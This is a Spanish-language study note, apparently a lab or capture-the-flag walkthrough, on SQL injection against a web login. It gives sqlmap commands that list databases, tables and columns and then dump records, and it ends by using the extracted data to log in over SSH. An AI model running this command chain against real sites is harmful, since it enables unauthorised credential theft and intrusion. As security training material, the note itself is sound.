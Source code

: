 - Las inyecciones SQL acontecen en los login web.

![](../Imagenes/Pasted%20image%2020241219201913.png)

- Vamos a usar la herramienta ==sqlmap==.

![](../Imagenes/Pasted%20image%2020241219202455.png)

- Con esta herramienta podemos encontrar:
	- Bases de datos
		- Tablas, columnas y registros.
- Es importante tener conocimiento de SQL.
https://www.youtube.com/watch?v=FbGG_cyLUAc
- Usamos el siguiente comando:
```
sqlmap -u (URL_CORRESPONDIENTE) --forms --dbs --batch
```

![](../Imagenes/Pasted%20image%2020241219202912.png)

- Encontramos los siguientes bases de datos:

![](../Imagenes/Pasted%20image%2020241219203414.png)

- Nos interesa Webapp.
- Vamos a usar el siguiente comando utilizando Webapp:
```
sqlmap -u (URL_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) --tables --batch
```

![](../Imagenes/Pasted%20image%2020241219203707.png)

- Nos encontró 1 tabla:

![](../Imagenes/Pasted%20image%2020241219203836.png)

- Que hay dentro de esta tabla?, Columnas.
- Para ver que columnas posee vamos a usar el siguiente código:
```
sqlmap -u (URLS_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) -T (TABLA) --columns --batch
```

![](../Imagenes/Pasted%20image%2020241219204140.png)

- Nos da las siguientes columnas.

![](../Imagenes/Pasted%20image%2020241219204516.png)

- Ahora vamos a ver los registros de las columnas con el siguiente código:
```
sqlmap -u (URLS_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) -T (TABLA) -C(COLUMNAS) --dump --batch
```

![](../Imagenes/Pasted%20image%2020241219204737.png)
- Ya tenemos toda la información que necesitamos:

![](../Imagenes/Pasted%20image%2020241219205227.png)

- Ya con esto podemos entrar por el puerto 22.